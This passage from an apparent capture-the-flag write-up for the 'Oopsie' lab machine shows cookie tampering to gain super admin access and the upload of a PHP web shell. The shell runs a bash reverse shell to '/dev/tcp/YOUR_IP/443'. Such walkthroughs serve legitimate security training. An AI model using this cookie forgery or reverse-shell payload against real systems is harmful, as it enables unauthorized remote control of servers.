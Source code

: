 Running the code, we see that __super admin id__ is __30__, as the response contains the word __super__.

![Desktop View](/assets/img/Oopsie/super_admin.png){: width="756" }

Unique cookies are the `user` and `role` tokens. Changing the cookie accordingly (_user: __86575__, role: __super admin___) we can access the `Uploads`{: .filepath} page.

![Desktop View](/assets/img/Oopsie/uploads.png){: width="756" }

### Getting complete control (RCE)
---

It's possible that the developer forgot to implement __user input validation__, so we should test if we can upload other files, such as a PHP web shell.

Trying to upload the following PHP reverse shell (_`shell.php`_) succeeds:

```php
<?php
  exec("/bin/bash -c 'bash -i &> /dev/tcp/YOUR_IP/443 0<&1'")
?>
```

During our sitemap-enumeration with [Wfuzz](https://tools.kali.org/web-applications/wfuzz), we found a directory called `/uploads`{: .filepath}. It probably contains the uploaded file.
